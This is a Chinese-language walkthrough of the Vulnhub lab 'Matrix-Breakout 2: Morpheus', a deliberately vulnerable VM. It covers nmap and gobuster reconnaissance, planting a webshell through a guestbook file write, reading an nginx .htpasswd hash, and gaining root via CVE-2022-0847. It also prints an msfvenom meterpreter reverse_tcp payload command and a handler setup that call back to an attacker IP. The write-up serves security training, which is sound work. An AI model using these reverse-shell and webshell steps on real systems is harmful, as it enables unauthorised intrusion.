# Vulnhub-MATRIX-BREAKOUT_2_MORPHEUS

<div style="text-align: right;">

date: "2023-08-28"

</div>

## 靶场信息

中文名：矩阵突围2 MORPHEUS
发布时间：2022.07.11
作者：Jay Beale
系列：矩阵突围
描述：这是 Matrix-Breakout 系列的第二部，副标题为 Morpheus:1。它的主题是第一部《黑客帝国》电影的回归。你扮演 Trinity，试图调查尼布甲尼撒号上的一台计算机，Cypher 将其他人锁在其中，而这台计算机掌握着解开谜团的钥匙。
难度：中等-困难
靶场地址：[https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

## 外网打点

#### 外网打点-探测存活

```
C:\Users\ME\Desktop
# nmap -sP 192.168.36.1/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-28 11:08 中国标准时间
Nmap scan report for 192.168.36.1
Host is up.
Nmap scan report for 192.168.36.168
Host is up (0.00s latency).
MAC Address: 00:0C:29:B0:C4:18 (VMware)
Nmap scan report for 192.168.36.254
Host is up (0.00s latency).
MAC Address: 00:50:56:F2:63:EB (VMware)
Nmap done: 256 IP addresses (3 hosts up) scanned in 24.61 seconds
```

#### 外网打点-探测端口

```
C:\Users\ME\Desktop
# nmap -A -p- 192.168.36.168 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-28 12:22 中国标准时间
NSOCK ERROR [0.3060s] ssl_init_helper(): OpenSSL legacy provider failed to load.

Nmap scan report for 192.168.36.168
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|_  256 aa83c351786170e5b7469f07c4ba31e4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Morpheus:1
81/tcp open  http    nginx 1.18.0
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.18.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Meeting Place
MAC Address: 00:0C:29:B0:C4:18 (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/28%OT=22%CT=1%CU=32791%PV=Y%DS=1%DC=D%G=Y%M=000C29%T
OS:M=64EC211F%P=i686-pc-windows-windows)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%
OS:II=I%TS=A)SEQ(CI=Z%II=I)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW
OS:6%O4=M5B4ST11NW6%O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%
OS:W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW6%CC=Y%Q=)T1
OS:(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(
OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G
OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   35.07 ms 192.168.36.168

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.35 seconds
```

#### 外网打点-81端口



目前看来只是一个登录的，尝试了弱口令，无果。

#### 外网打点-80端口



___

欢迎来到 Boot2Root CTF，Morpheus：1。
你扮演 Trinity，试图调查 Nebuchadnezzar 上的一台计算机，Cypher 已将其他人锁定在其中，至少无法使用 ssh。
祝你好运！- @jaybeale 来自 @inguardians

___

#### 外网打点-robots.txt



#### 外网打点-目录爆破


```
➜  CodeQLpy-master gobuster dir -u http://192.168.36.168 -w /home/kali/Desktop/directory-list/directory-list-2.3-small.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.36.168
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Desktop/directory-list/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 348]
/script           (Status: 301) [Size: 321] [--> http://192.168.36.168/script/]
/robots.txt           (Status: 200) [Size: 47]
/graffiti.txt         (Status: 200) [Size: 139]
/graffiti.php         (Status: 200) [Size: 451]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
Progress: 350656 / 350660 (100.00%)
===============================================================
Finished
===============================================================
```

#### 外网打点-留言板

访问`graffiti.php`



___

中译：鼠标在此 - 欢迎来到 Nebby！  确保不要告诉墨菲斯这面涂鸦墙的事。 来这里只是为了让我们发泄一下。
在留言框中输入的内容会在页面上显示，而且使用隐私模式访问，发现内容也没有消失。

___



抓包查看，发现数据包提交时，跟了`graffiti.txt`文件



访问`graffiti.txt`


发现内容都写入了`graffiti.txt`之中，那么此处是不是可以自己写入一个一句话后门呢。

#### 外网打点-获取shell

将一句话url编码后发送。





## 内部渗透

#### 内部渗透-Flag01

去到根目录下发现Flag1文件
```
Flag 1!

You've gotten onto the system.  Now why has Cypher locked everyone out of it?

Can you find a way to get Cypher's password? It seems like he gave it to 
Agent Smith, so Smith could figure out where to meet him.

Also, pull this image from the webserver on port 80 to get a flag.

/.cypher-neo.png
```

___

译文：
标志 1！
你已经进入系统了。 为什么 Cypher 将所有人拒之门外？
你能找到获取 Cypher 密码的方法吗？ 好像是他给的
史密斯特工，这样史密斯就能找到在哪里与他见面。
另外，从端口 80 上的网络服务器拉取此映像以获取标志。
/.cypher-neo.png

___

访问提示给的`/.cypher-neo.png`





未发现隐藏文件

#### 内部渗透-.htpasswd隐藏文件

经过找寻后在/var/nginx/html下发现了隐藏文件`.htpasswd`，在其中发现

```
(www-data:/var/nginx/html) $ ls -la | grep "^\."
total 784
drwxr-xr-x 2 nginx nginx   4096 Oct 28  2021 .
drwxr-xr-x 3 nginx nginx   4096 Oct 28  2021 ..
-rw-r--r-- 1 nginx nginx     45 Oct 28  2021 .htpasswd
-rw-r--r-- 1 nginx nginx 782775 Oct 28  2021 ignorance-bliss.png
-rw-r--r-- 1 nginx nginx    522 Oct 28  2021 index.html
(www-data:/var/nginx/html) $ cat .htpasswd
cypher:$apr1$e9o8Y7Om$5zgDW6WOO6Fl8rCC7jpvX0
```

访问index.html


Kali只分配了2g运存，跑hashcat内存不足

#### 内部渗透-CVE-2022-0847提权
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.36.131 LPORT=4444 -f elf -o reverse_shell_64.elf
```

```
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.36.131
set LPORT 4444
exploit
```

```
shell
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
# whoami 
whoami
root

# ls -al
ls -al
total 48
drwx------  4 root root  4096 Nov 29  2021 .
drwxr-xr-x 19 root root  4096 Oct 28  2021 ..
-rw-r--r--  1 root root   571 Apr 10  2021 .bashrc
-rw-------  1 root root    79 Oct 28  2021 .lesshst
drwxr-xr-x  3 root root  4096 Oct 28  2021 .local
-rw-r--r--  1 root root   161 Jul  9  2019 .profile
-rw-r--r--  1 root root    66 Oct 28  2021 .selected_editor
drwxr-xr-x  2 root root  4096 Oct 28  2021 .vim
-rw-------  1 root root 10925 Oct 28  2021 .viminfo
-rw-------  1 root root    54 Oct 28  2021 FLAG.txt
# cat FLAG.txt
cat FLAG.txt
You've won!

Let's hope Matrix: Resurrections rocks!


```

___

译文：


___

## 靶场总结

1. 面对不同类型的网站时，需要用到不同的目录扫描字典和扫描器，这个很重要，一定要多尝试不同的字典。

